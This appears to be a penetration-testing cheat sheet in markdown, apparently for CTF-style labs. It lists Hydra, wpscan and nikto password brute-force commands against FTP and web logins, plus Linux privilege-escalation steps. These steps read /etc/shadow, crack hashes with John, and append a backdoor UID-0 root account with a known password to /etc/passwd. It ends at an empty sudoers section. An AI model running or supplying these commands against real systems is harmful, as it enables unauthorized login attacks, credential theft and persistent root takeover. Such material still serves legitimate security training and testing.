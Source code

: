 ## Hydra Attack Type Cheat Sheet ✅
```bash
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp
```
### Web_Method Brute Force ✅
```bash
nikto -h http://10.10.131.147:1234/manager/html -id bob:<password> (get-method)
wpscan --url http://<adress>/ --usernames <user> --passwords /usr/share/wordlists/rockyou.txt
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -f <ip> -s 80 http-get /protected/ -I
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -f <ip> -s 80 http-post-form "/<dir>:username=^USER^&password=^PASS^:<Faild Error>" -vV -I
```
# Privilege-Escalation ✅📚
## SUID_SGID_Capabilities_Files_enumeration ✅
```
getcap -r / 2>/dev/null 
find /  -perm -04000 -ls 2>/dev/null
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \;
```
## Privilege-Escalation_enumeration ✅
```bash
id
history
sudo -V
bash --version
cat /etc/sudoers
cat /etc/crontab
uname -a (Linux kernel version)
cat /etc/issue (Linux distribution version) 
cat /etc/*-release (Linux distribution version) 
cat /proc/version (Linux kernel version)
```
## Weak File Permissions ✅
```bash
cat /etc/shadow
unshadow /etc/passwd /etc/shadow > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
### Writable /etc/shadow OR /etc/passwd ✡️
```bash
mkpasswd -m sha-512 <new-password>
OR
openssl passwd <password>
OR
openssl passwd -1 -salt <username> <password>

change root password from /etc/shadow OR Add to end the /etc/passwd
Format add to /etc/passwd = <username>:<passwordhash>:0:0:root:/root:/bin/bash

echo 'mobin:$1$8VO3cUZu$als/bleGjZ3SVjE5EGzvh/:0:0:root:/root:/bin/bash' >> /etc/passwd
echo 'mobin:$6$/LuWBv7L4QbfG1kf$pb0sFxOLHKiMNiAr2vMdpRc2e8mljxoUlm33fY6KEXLzcH7K51zegdnOYygurWuP/2.KW3eQvcBHXBn9/Jqnj0:0:0:root:/root:/bin/bash' >> /etc/passwd
password=Mobin@

su <username> ( Switch to new root user )
```
### Writable /etc/sudoers ✡️
```bash
```